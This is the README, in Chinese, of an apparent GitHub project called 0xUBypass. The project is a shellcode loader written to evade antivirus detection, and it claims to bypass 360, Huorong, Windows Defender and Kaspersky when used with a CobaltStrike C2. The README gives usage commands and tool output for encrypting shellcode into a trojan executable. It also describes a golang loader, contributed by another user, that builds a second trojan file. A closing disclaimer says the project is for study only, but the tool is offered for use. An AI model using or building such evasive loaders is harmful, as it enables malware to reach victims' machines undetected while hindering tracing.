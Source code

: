 ## 0xUBypass
### Description:
这是一个基于纯汇编语言绕过动/静态检测的Shellcode Loader，也可以直接当做免杀使用，使用了2048位秘钥的RSA进行防止逆向，可以有效避免被溯源，当然，需要携带秘钥作为启动参数

### Requirements:
开发环境为VS 2017，当然你也可以适当更改代码使得它可以在新版运行
shellcode要求为32位的shellcode，当然，你可以在 https://github.com/Yeuoly/0xUBypass/blob/master/WindowsShellcodeInjector/WindowsShellcodeInjector.cpp#L41 这里修改HEAVENS GATE，取消天堂门，从而适配64位，一切按照大家的需求

### Bypass
操作系统：Win10 64位
杀毒软件：360全家桶(360安全卫士、360杀毒)，火绒，windows defender，卡巴斯基，更多的暂时没有测试<br>
C2及版本：CobaltStrike 4.4
- [x] 360
![Alt text](README.assets/image.png)
![Alt text](README.assets/image-1.png)
- [x] Windows Defender
![Alt text](README.assets/image-2.png)
- [x] 火绒
![Alt text](README.assets/image-5.png)
![Alt text](README.assets/image-4.png)
- [x] 卡巴斯基
![Alt text](README.assets/image-3.png)

### Usage:
#### 直接使用
首先准备好一段shellcode（RAW编码）保存在aaa.bin（命名随意）中，然后使用UBypass进行加密，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\WindowsShellcodeInjector.exe .\calc.bin
[*] Generated Private Key => gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<=
[*] Your Padding Original Shellcode Size is 280
[*] Your Padding Encrypted Shellcode Size is 560
[*] Your Encrypted Shellcode is f30d0f241eafbe062451e23a3ede47419f06cbc36802ea49e23beb1caaa3dc008f4fa95bf85cc18235383bc8593411345e4485af8cd58a52e9500e0d5664760a99d5ef9d0727d70d582563959b016b1c2069a149cdddcd5fc
```

随后会在当前文件夹生成一个Kawaii.exe即为携带了你的shellcode的马子，使用的时候加上私钥即可，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\Kawaii.exe 'gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<='
```

#### 使用golang加载DLL
感谢 [A10nggg](https://github.com/A10nggg) 师傅的贡献，现在可以使用golang加载DLL了

使用方法如下

如果你不喜欢默认的C++加载器，你也可以使用golang加载器，毕竟C++的特征过于明显，很容易被杀软检测到，使用方法如下

1. 首先你需要将本项目编译为DLL
2. 使用go编译go_bundle.go生成木马文件

```bash
go run go_bundle.go muma
```
其中muma为生成的木马文件名，可以自定义，具体建议看代码

3. 将生成的木马文件和DLL文件放在同一目录下，然后运行木马文件即可

### 免责声明
本项目仅供学习交流使用，请勿用于非法用途，否则后果自负，与本人无关

本项目不提供任何已经编译好的二进制文件，如果你在网上找到了，请注意可能是被人恶意篡改过的，建议自行编译
